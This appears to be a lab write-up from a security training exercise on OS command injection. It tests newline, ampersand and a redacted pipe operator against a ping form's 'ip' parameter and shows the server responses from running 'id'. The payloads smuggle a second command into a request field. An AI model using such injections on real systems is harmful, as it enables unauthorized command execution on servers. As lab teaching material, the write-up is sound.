



## Exercises

### Question 1 — Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?

With the request intercepted in Burp and sent to Repeater, I tried the new-line operator first, URL-encoded as `%0a`:

```http
ip=172.0.0.1%0aid
```

**Breakdown:**

- `ip=172.0.0.1` sets the intended IP address
- `%0a` is the URL-encoded form of a newline character, the new-line operator
- `id` is the injected command, which prints the current user's UID, GID, and group memberships

Response:

```html
<pre>
PING 172.0.0.1 (172.0.0.1) 56(84) bytes of data.

--- 172.0.0.1 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms

uid=33(www-data) gid=33(www-data)
groups=33(www-data)
</pre>
```

Both commands ran, with the ping output followed by the `id` output.



Next, the background operator:

```http
ip=172.0.0.1%26id
```

**Breakdown:**

- `ip=172.0.0.1` sets the intended IP address
- `%26` is the URL-encoded form of `&`, the background operator
- `id` is the injected command

Response:

```html
<pre>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
PING 172.0.0.1 (172.0.0.1) 56(84) bytes of data.

--- 172.0.0.1 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
</pre>
```

Both commands ran, but the `id` output came back before the ping output — matching the behaviour the operators table describes for background: both run, with the second command's output generally shown first.



Finally, the last operator, sent without URL-encoding:

```http
ip=172.0.0.1—REDACTED—id
```

**Breakdown:**

- `ip=172.0.0.1` sets the intended IP address
- `—REDACTED—` is the injection operator
- `id` is the injected command

Response:

```html
<pre>
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

Only the `id` output came back, with no ping output at all. This confirms `—REDACTED—` is the operator that shows only the injected command's output.



**Answer:** `—REDACTED—`